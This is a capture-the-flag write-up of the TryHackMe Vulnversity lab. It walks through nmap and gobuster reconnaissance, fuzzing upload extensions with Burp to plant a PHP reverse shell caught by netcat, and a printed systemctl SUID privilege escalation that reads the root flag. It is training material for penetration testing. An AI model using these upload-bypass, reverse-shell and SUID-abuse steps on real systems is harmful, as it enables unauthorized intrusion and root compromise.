





Learn about active recon, web app attacks and privilege escalation

Deploy the machine and grab some coffee. You might need it! :')

## Reconnaissance

First let's start with scanning the machine. There are a handful of possiblities to do this - [Nmap](https://nmap.org/), [Rustscan](https://github.com/RustScan/RustScan), [Angry IP Scanner](https://angryip.org/)...

I'll go with the classic... Nmap! I always use, at least two flags to cover my bases, allowing me to see the service name of each open part and some information on the machine that I'm scanning, avoiding needing to use more flags. If needed I can always add some more, depending on the output I receive from the command, but normally it isn't necessary.

```
$ nmap -sC -sV <ip-address>
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-06 04:11 EST
Nmap scan report for <ip-address>
Host is up (0.036s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1h39m59s, deviation: 2h53m12s, median: 0s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2022-02-06T04:12:09-05:00
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2022-02-06T09:12:09
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.48 seconds
```

Start answering the questions! With the two flags set when executing the command, there really isn't need for running the other flags mentioned. However, there is also the question regarding the `-n` flag. 

Instead of searching with your favorite search engine, let's pull up the information using the manpage for Nmap!

```
$ man nmap
```

This will output the following:

```
NMAP(1)                                        Nmap Reference Guide                                       NMAP(1)

NAME
       nmap - Network exploration tool and security / port scanner

SYNOPSIS
       nmap [Scan Type...] [Options] {target specification}

DESCRIPTION
       Nmap (“Network Mapper”) is an open source tool for network exploration and security auditing. It was
       designed to rapidly scan large networks, although it works fine against single hosts. Nmap uses raw IP
       packets in novel ways to determine what hosts are available on the network, what services (application
       name and version) those hosts are offering, what operating systems (and OS versions) they are running,
       what type of packet filters/firewalls are in use, and dozens of other characteristics. While Nmap is
       commonly used for security audits, many systems and network administrators find it useful for routine
       tasks such as network inventory, managing service upgrade schedules, and monitoring host or service
       uptime.

       The output from Nmap is a list of scanned targets, with supplemental information on each depending on the
       options used. Key among that information is the “interesting ports table”.  That table lists the port
       number and protocol, service name, and state. The state is either open, filtered, closed, or unfiltered.
       Open means that an application on the target machine is listening for connections/packets on that port.
       Filtered means that a firewall, filter, or other network obstacle is blocking the port so that Nmap cannot
       tell whether it is open or closed.  Closed ports have no application listening on them, though they could
       open up at any time. Ports are classified as unfiltered when they are responsive to Nmap's probes, but
       Nmap cannot determine whether they are open or closed. Nmap reports the state combinations open|filtered
       and closed|filtered when it cannot determine which of the two states describe a port. The port table may
       also include software version details when version detection has been requested. When an IP protocol scan
       is requested (-sO), Nmap provides information on supported IP protocols rather than listening ports.

       In addition to the interesting ports table, Nmap can provide further information on targets, including
       reverse DNS names, operating system guesses, device types, and MAC addresses.

       A typical Nmap scan is shown in Example 1. The only Nmap arguments used in this example are -A, to enable
       OS and version detection, script scanning, and traceroute; -T4 for faster execution; and then the
       hostname.

       Example 1. A representative Nmap scan

           # nmap -A -T4 scanme.nmap.org

           Nmap scan report for scanme.nmap.org (74.207.244.221)
           Host is up (0.029s latency).
           rDNS record for 74.207.244.221: li86-221.members.linode.com
           Not shown: 995 closed ports
           PORT     STATE    SERVICE     VERSION
           22/tcp   open     ssh         OpenSSH 5.3p1 Debian 3ubuntu7 (protocol 2.0)
 Manual page nmap(1) line 1 (press h for help or q to quit)
```

Learning how to navigate the man page is essential to find the information fast, without being stuck there for a while. 

For example, to search for the `-n` flag, we can search forward with `/pattern` or search backwards with `?pattern`. You can also search for only matching lines with `&pattern`.

This will highlight the search pattern like so!

```
  -n/-R: Never do DNS resolution/Always resolve [default: sometimes]
             --dns-servers <serv1[,serv2],...>: Specify custom DNS servers
             --system-dns: Use OS's DNS resolver
             --traceroute: Trace hop path to each host
           SCAN TECHNIQUES:
             -sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon scans
             -sU: UDP Scan
             -sN/sF/sX: TCP Null, FIN, and Xmas scans
             --scanflags <flags>: Customize TCP scan flags
             -sI <zombie host[:probeport]>: Idle scan
             -sY/sZ: SCTP INIT/COOKIE-ECHO scans
             -sO: IP protocol scan
             -b <FTP relay host>: FTP bounce scan
           PORT SPECIFICATION AND SCAN ORDER:
             -p <port ranges>: Only scan specified ports
               Ex: -p22; -p1-65535; -p U:53,111,137,T:21-25,80,139,8080,S:9
             --exclude-ports <port ranges>: Exclude the specified ports from scanning
             -F: Fast mode - Scan fewer ports than the default scan
             -r: Scan ports consecutively - don't randomize
             --top-ports <number>: Scan <number> most common ports
             --port-ratio <ratio>: Scan ports more common than <ratio>
           SERVICE/VERSION DETECTION:
             -sV: Probe open ports to determine service/version info
             --version-intensity <level>: Set from 0 (light) to 9 (try all probes)
             --version-light: Limit to most likely probes (intensity 2)
             --version-all: Try every single probe (intensity 9)
             --version-trace: Show detailed version scan activity (for debugging)
           SCRIPT SCAN:
             -sC: equivalent to --script=default
             --script=<Lua scripts>: <Lua scripts> is a comma separated list of
                      directories, script-files or script-categories
             --script-args=<n1=v1,[n2=v2,...]>: provide arguments to scripts
             --script-args-file=filename: provide NSE script args in a file
             --script-trace: Show all data sent and received
             --script-updatedb: Update the script database.
             --script-help=<Lua scripts>: Show help about scripts.
                      <Lua scripts> is a comma-separated list of script-files or
                      script-categories.
           OS DETECTION:
             -O: Enable OS detection
             --osscan-limit: Limit OS detection to promising targets
             --osscan-guess: Guess OS more aggressively
           TIMING AND PERFORMANCE:
             Options which take <time> are in seconds, or append 'ms' (milliseconds),
             's' (seconds), 'm' (minutes), or 'h' (hours) to the value (e.g. 30m).
             -T<0-5>: Set timing template (higher is faster)
             --min-hostgroup/max-hostgroup <size>: Parallel host scan group sizes
Manual page nmap(1) line 95 (press h for help or q to quit)
```

Quit with `q` and continue onwards!

## Directory discovery

The room mentions using `GoBuster`, but know there are many other tools for this; `wfuzz`, `dirbuster`, `dirb`... Let's use the one they suggest, `GoBuster`!

If you are using `GoBuster` for the first time, make sure to install it! If you simply run `gobuster` on your terminal, it will ask the following:

```
$ gobuster
Command 'gobuster' not found, but can be installed with:
sudo apt install gobuster
Do you want to install it? (N/y)
```

Now let's "dissect" the command `gobuster dir -u http://<ip-address>:<port-number> -w <wordlist>`:
* dir - The command is used for executing a directory or file enumeration mode
* `-u` - This flag will allow you to set the target URL. Never forget about the `http://`!
* `-w` - The path to the wordlist. (Yes, wordlist is a list of words. In this case, of common directory and file names).

```
gobuster dir -u http://10.10.179.86:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.179.86:3333
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/02/06 05:05:17 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 320] [--> http://10.10.179.86:3333/images/]
/css                  (Status: 301) [Size: 317] [--> http://10.10.179.86:3333/css/]   
/js                   (Status: 301) [Size: 316] [--> http://10.10.179.86:3333/js/]    
/fonts                (Status: 301) [Size: 319] [--> http://10.10.179.86:3333/fonts/] 
/internal             (Status: 301) [Size: 322] [--> http://10.10.179.86:3333/internal/]
/server-status        (Status: 403) [Size: 302]                                         
Progress: 133474 / 220561 (60.52%)                                                     ^C
[!] Keyboard interrupt detected, terminating.
                                                                                        
===============================================================
2022/02/06 05:13:42 Finished
===============================================================
```

Once you find the answer to the question in the task, simply press `CTRL+C` to interrupt the command execution.

## Compromise the machine

Let's take a look at the website before continuing!


Taking a look at the source code doesn't tell us much about the possible filters against certain extensions, so fire up [Burp](https://portswigger.net/burp/communitydownload)!

If you haven't used Burp before, make sure to check out the [Burp room](https://tryhackme.com/room/rpburpsuite) when you can and pay close attention to what's coming now.

Once you've opened Burp, go to the **Proxy** tab and open Burp's embedded browser. Now, go to http://<ip-address>:<port-number>/<page-discovered>. Notice that the page doesn't seem to load. That is because the intercept is on! 

Forward the request to see the page and the loaded scripts. Be aware that you might need to forward the traffic a couple of times.

Following the instructions, make (or find) a wordlist. [This](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt) is the one that I will be using!

```
.asp
.aspx
.bat
.c
.cfm
.cgi
.css
.com
.dll
.exe
.htm
.html
.inc
.jhtml
.js
.jsa
.jsp
.log
.mdb
.nsf
.pcap
.php
.php2
.php3
.php4
.php5
.php6
.php7
.phps
.pht
.phtml
.pl
.reg
.sh
.shtml
.sql
.swf
.txt
.xml
```

Let's upload a random file and submit it on the site. 



Now, instead of forwarding the request, choose the "Action" button and "Send to intruder" or use `CTRL+l`. Here you will see the "Attack Target" details - the IP address and the port. Changing to the "Payloads" tab within Intruder, Load the word list you made or gathered into the "Payload Options [Simple List]" section.




Before going to the "Positions" tab to set the payload position, make sure to uncheck this box!



Now in the "Positions" tab, set the payload position by pressing the "Clear" button on the left. Look for the filename variable in the request. Once you've found it, select the `.<extension>` of the file and press the "Add" button on the right. It should look like this.



The only thing missing now is launching the attack! 

This will open a small window with the results of each request, including the payload, the return status and the length of the response given. Order the list by length and check the response of the request. It is different, isn't it?

We got a successful upload!



Now to prepare our reverse shell! 

A reverse shell is a shell initiated from a remote machine to our local machine. Once our local machine receives the connection, it allow us to roam around that machine and possibly, gather information on the sytem. 

The most used reverse shell is [pentestmoney](https://github.com/pentestmonkey/php-reverse-shell)'s and editing the values of `$ip` and `$port` at the very top of the script.

Check your IP address with `ip addr show` and copy the `tun0` IP address shown. Optionally, change the port to a random port, for example, `4444` or `9999` if you want.

Make sure to save the file with the `.phtml` extension or use `mv <file>.php <file>.phtml`.

Before uploading the file, listen to incoming connections using your preferred listener. I will be using Netcat, one of the tools of the Nmap suite!

In a terminal run the command `nc -lnvp 4444` where:
* `- l` - Listen mode for inbound connects.
* `- n ` - Numeric-only IP addresses.
* `- p` - The local port number.
* `- v` - Verbose output (Additional context and information).

Now upload the reverse shell and navigate to the file you just uploaded! 

A little hint: All **uploads** are normally uploaded in the same type of directory.

A bigger hint: Navigate to `<directory-found>/uploads/`

Now select the reverse shell and take a look at your Netcat listener!

```
nc -lnvp 4444
listening on [any] 4444 ...
connect to [<ip-address>] from (UNKNOWN) [10.10.210.115] 47704
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 06:54:29 up 39 min,  0 users,  load average: 0.00, 0.00, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

Let's take a look around. What is our current directory? What other users exist in the machine?

```
$ pwd
/
$ ls
bin
boot
dev
etc
home
initrd.img
lib
lib64
lost+found
media
mnt
opt
proc
root
run
sbin
snap
srv
sys
tmp
usr
var
vmlinuz
$ ls home
****
$
```

Checking `/home` is always a good idea when it comes to a Linux machine, that's where all non-root users will have their home directory by default!

Go to the home directory of the user you found and grab that `user.txt` flag!

```
$ ls home/****
user.txt
$ cat home/****/user.txt
8b<redacted-flag>db
$
```

## Privilege Escalation

"In Linux, SUID (set owner userId upon execution) is a special type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it). For example, the binary file to change your password has the SUID bit set on it (/usr/bin/passwd). This is because to change your password, it will need to write to the shadowers file that you do not have access to, root does, so it has root privileges to make the right changes." - [Vulnversity on THM](https://tryhackme.com/room/vulnversity)

To find all SUID files in the system, use the `find <directory> -perm /<permissions>` command. The SUID set in a file is  **4000**, so the command will look like `find <directory> -perm /4000`.

As an extra, add `2>/dev/null` to filter out the errors so you don't see them in the output of the command.

```
$ find / -perm /4000 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```

It looks like there are a lot of different options. Let's go with `systemctl`!

`systemctl` is a command utility responsible for controlling the systemd system and service manager. 

To find out how this can be exploited, navigate to the most incredible list available to bypass restrictions and misconfigured systems... [GTFOBins](https://gtfobins.github.io/)!

Search for `systemctl` and follow the instructions to exploit the binary and gain those nice root privileges. Be aware, however, that what you want is read the root flag, not get the root id!

Take a look at the terminal input below if you have any issue. Remember, this is the Netcat listener session!

```
$ tf=$(mktemp).service
$ echo '[Service]   
> ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/flag"
> [Install]
> WantedBy=multi-user.target' > $tf
$ /bin/systemctl link $tf
Created symlink from /etc/systemd/system/tmp.M5KfpYhbYP.service to /tmp/tmp.M5KfpYhbYP.service.
$ /bin/systemctl enable --now $tf
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.M5KfpYhbYP.service to /tmp/tmp.M5KfpYhbYP.service.
```

Let's see if this worked by outputting the contents of the `flag` file in the `/tmp` directory.

```
$ cat /tmp/flag
a5<redacted-flag>d5
```

That's a wrap!
